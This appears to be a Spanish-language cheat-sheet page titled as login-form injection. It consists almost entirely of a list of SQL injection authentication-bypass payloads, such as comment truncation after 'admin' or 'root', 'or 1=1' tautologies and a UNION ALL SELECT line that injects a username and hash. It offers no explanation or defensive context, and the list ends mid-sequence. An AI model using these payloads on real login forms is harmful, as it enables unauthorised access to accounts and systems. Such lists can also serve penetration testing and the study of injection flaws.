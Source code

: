 **Inyeccion en formularios de inicio de sesion** 

{% highlight sql %}  
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1-- -
' or 1=1#
') or '1'='1--
') or ('1'='1—
' or 1=1/*
root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*
or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*
1234 ' AND 1=0 UNION ALL SELECT 'root', '81dc9bdb52d04dc20036dbd8313ed055
root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#